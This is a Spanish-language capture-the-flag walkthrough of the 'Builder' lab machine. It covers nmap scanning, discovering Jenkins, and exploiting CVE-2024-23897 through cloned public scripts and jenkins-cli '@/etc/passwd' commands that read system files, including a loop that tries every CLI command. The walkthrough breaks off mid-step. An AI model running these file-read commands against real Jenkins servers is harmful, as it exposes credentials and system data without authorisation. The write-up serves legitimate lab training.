 
---
# Resolución de la maquina **BUILDER**
---

- Empezamos creando nuestras carpetas que contengan nuestros registros de nmap, scripts, exploits, content.
```
mkt
```

- Ingresamos a nuestra carpeta de nmap y realizamos un ping y escaneo a la red.
```
ping -c 1 10.10.11.10
```
- Con el siguiente comando registraremos la información en el archivo allPorts
```
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.11.10 -oG allPorts
```

Desglosemos la línea de comandos:

1. `nmap`: Este es el comando principal que invoca Nmap, una herramienta de código abierto para la exploración de redes y auditoría de seguridad.
    
2. `-p-`: Esto le dice a Nmap que escanee todos los puertos (1-65535). El guion ("dash") indica un rango de puertos.
    
3. `-sS`: Especifica el tipo de escaneo a realizar, en este caso, un escaneo de tipo TCP SYN (SYN scan). Este tipo de escaneo envía un paquete SYN al puerto de destino y espera una respuesta SYN/ACK si el puerto está abierto.
    
4. `--open`: Esta opción indica a Nmap que solo muestre los puertos que están abiertos en el escaneo.
    
5. `--min-rate 5000`: Esto establece la velocidad mínima de envío de paquetes. En este caso, se están enviando al menos 5000 paquetes por segundo.
    
6. `-vvv`: Esta opción activa el modo de verbosidad máximo, lo que significa que Nmap proporcionará una salida muy detallada, mostrando incluso información de depuración adicional.
    
7. `-n`: Indica a Nmap que no realice resolución de DNS inversa en las direcciones IP encontradas durante el escaneo.
    
8. `-Pn`: Esta opción le dice a Nmap que no realice la detección de hosts, lo que significa que no intentará determinar si el host objetivo está activo antes de realizar el escaneo.
    
9. `10.10.11.10`: Esta es la dirección IP del host que se va a escanear.
    
10. `-oG allPorts`: Especifica el formato de salida del escaneo. En este caso, la opción `-oG` genera una salida en formato "greppable" que puede ser procesada posteriormente con herramientas como grep. El archivo de salida se llamará "allPorts".

- Ahora con la herramienta **extractPorts** usamos el archivo grepeaple.
```
extractPorts allPorts
```

- Realizamos un escaneo con **nmap** a los puertos detectados en la dirección ip destino.
```
nmap -p22,8080 -sCV 10.10.11.10 -oN targeted 
```

- `-p22,8080`: Esta opción especifica los puertos que se van a escanear. En este caso, se están escaneando los puertos 22 (utilizado comúnmente para SSH) y 8080 (a menudo utilizado para servicios web alternativos u otros fines).
    
- `-sC`: Esta opción activa el script predeterminado de escaneo y detección de versiones. Esto significa que Nmap ejecutará una serie de scripts integrados para detectar versiones de servicios y obtener información adicional sobre ellos.
    
- `-sV`: Esta opción solicita a Nmap que realice la detección de versiones en los servicios que descubre durante el escaneo de puertos. Esto significa que intentará determinar qué versiones de software están siendo ejecutadas en los puertos abiertos.
    
- `10.10.11.10`: Esta es la dirección IP del objetivo que se está escaneando. En este caso, el escaneo de puertos y servicios se realizará en el dispositivo con la dirección IP 10.10.11.10.
    
- `-oN targeted`: Esta opción especifica el formato y el nombre del archivo de salida del escaneo. En este caso, el resultado se guardará en un archivo llamado "targeted" en un formato específico que se puede procesar posteriormente.

- Ya con esta información podríamos investigar mas con la información que nos muestra con la versión del Ubuntu
**OpenSSH 8.9p1 Ubuntu 3ubuntu0.6**
- Investigando con la página **launchpad** nos damos cuenta que estamos con la versión Jammy de Ubuntu 
**JAMMY**
- El siguiente comando nos permite ver el contenido de manera java 
```
cat targeted -l java
```

- A continuación empezamos a utilizar la herramienta **whatweb**
```
whatweb http://10.10.11.10:8080
```

- Con el siguiente comando podemos escanear las directorios existentes con la herramienta de **nmap**
```
nmap --script http-enum -p8080 10.10.11.10 -oN webScan
```

- `--script http-enum`: Esta opción indica a Nmap que ejecute el script `http-enum` durante el escaneo. Este script se utiliza para identificar y enumerar recursos y directorios en un servidor web que responde a peticiones HTTP. La enumeración de estos recursos puede revelar información sobre la estructura del sitio web y posiblemente exponer puntos de entrada para posibles vulnerabilidades.
    
- `-p8080`: Esta opción especifica el puerto que se va a escanear. En este caso, estás escaneando el puerto 8080, que es comúnmente utilizado para servidores web alternativos o servicios web adicionales.
    
- `10.10.11.10`: Esta es la dirección IP del objetivo que se está escaneando. En este caso, el escaneo se realizará en el dispositivo con la dirección IP 10.10.11.10.
	
- `-oN`: Esta es una opción de Nmap que se utiliza para especificar el formato y el nombre del archivo de salida del escaneo.
    
- `webScan`: Este es el nombre del archivo de salida donde se guardarán los resultados del escaneo. En este caso, el archivo se llamará "webScan".

- A continuación podemos empezar a investigar la pagina web montada en el puerto 8080
- Vemos que es una pagina de **Jenkins** y podemos buscar en el navegador **default password** como **admin/password**
- Podemos observar la versión de **Jenkins** en la parte inferior y con esto podemos averiguar en internet un exploit en caso de que este desactualizado 
- Analizamos la pagina y encontramos que tiene información de usuarios pero no da mas información, así que nos dirigimos a nuestra carpeta de scripts
- Nos clonamos el repositorio de CVE-2024-23897
```
git clone https://github.com/h4x0r-dz/CVE-2024-23897.git
```
- Si realizamos un cat al archivo **CVE-2024-23897.py** podemos analizar un poco del script a utilizar 

- Utilizamos la siguiente linea para observar información en ciertas rutas
```
python3 CVE-2024-23897.py -u http://10.10.11.10:8080 -f /etc/group
```
- En ocasiones toca volver a enviar la petición para que muestre otros resultados

- Tambien tenemos otro exploit que nos trae de local el recurso
```
git clone https://github.com/CKevens/CVE-2024-23897.git
```

- Con este comando podemos ejecutar whoami por ejemplo
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 who-am-i
```

- Si queremos leer archivos de una ruta podemos utilizar 
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help @/etc/passwd
```

- Con este comando podemos enlistar mas información detallada
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node @/etc/passwd
```

 - El comando ejecuta cada comando disponible en Jenkins, intenta obtener `/etc/passwd` con cada uno, y muestra el recuento de líneas de salida de cada intento.
```
for command in $(java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help 2>&1 | grep -v "    " | xargs | tr ' ' '\n'); do echo "[+] Para el comando $command: $(java -jar jenkins-cli.jar -s http://10.10.11.10:8080 $command @/etc/passwd 2>&1 | wc -l)"; done
```

- 


- Si no funciona de esa manera abrimos el burpsuite para ver un poco mas de información 
```
burpsuite &> /dev/null & disown
```
- En las configuraciones del proxy editamos en la ip el host de la pagina que vamos a utilizar con el puerto designado

- Nos clonamos 